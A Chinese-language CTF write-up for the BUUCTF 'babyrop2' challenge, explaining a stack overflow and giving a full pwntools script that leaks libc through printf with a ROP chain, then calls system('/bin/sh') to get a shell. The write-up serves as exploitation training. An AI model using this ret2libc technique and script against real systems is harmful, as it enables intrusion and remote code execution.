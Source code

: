 ### Printf 泄露 libc

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67a98c62d0e0a243d4fdd766.png)

代码很简单

![](https://pic1.imgdb.cn/item/67a98c85d0e0a243d4fdd771.png)

read 的大小是 0x100，明显超过了 buf 存在溢出

![](https://pic1.imgdb.cn/item/67a98c9dd0e0a243d4fdd776.png)

没有可利用字符串及后门函数，需要泄露 libc 构造 ROP

使用 printf 泄露时需要用到两个及以上的参数

```c
int printf(const char *format, ...);
```

先去找 pop rdi;

![](https://pic1.imgdb.cn/item/67a98e5fd0e0a243d4fdd7f4.png)

参考 1.7 64 位 ROP 中，第二个参数需要用到 rsi 寄存器，继续去找

![](https://pic1.imgdb.cn/item/67a992fdd0e0a243d4fdd908.png)

第一个参数必须带有百分号，去利用现成的字符串

![](https://pic1.imgdb.cn/item/67a99422d0e0a243d4fdd9b4.png)

构造 payload

```python
from pwn import *
from LibcSearcher import *

p = remote('node5.buuoj.cn',29562)
elf = ELF('babyrop2')

pop_rdi = 0x0000000000400733
pop_rsi_r15 = 0x0000000000400731 
format_str = 0x0000000000400770  
ret_addr = 0x0000000000400734

printf_plt = elf.plt['printf']
read_got = elf.got['read']
main_plt = elf.sym['main']

payload = b'a' * 0x28 + p64(pop_rdi) + p64(format_str) + p64(pop_rsi_r15) + p64(read_got) + p64(0) + p64(printf_plt) + p64(main_plt)

p.recvuntil("name? ")
p.sendline(payload)

# 接收地址基本上都是 7 个字节的，7f 开头，补全 8 个字节
read_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))

libc = LibcSearcher('read', read_addr)
libc_base = read_addr - libc.dump('read')
sys_addr = libc_base + libc.dump('system')
bin_sh = libc_base + libc.dump('str_bin_sh')

payload = b'a' * 0x28 + p64(pop_rdi) + p64(bin_sh) + p64(sys_addr)

p.sendline(payload)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67a99a0ad0e0a243d4fddcea.png)
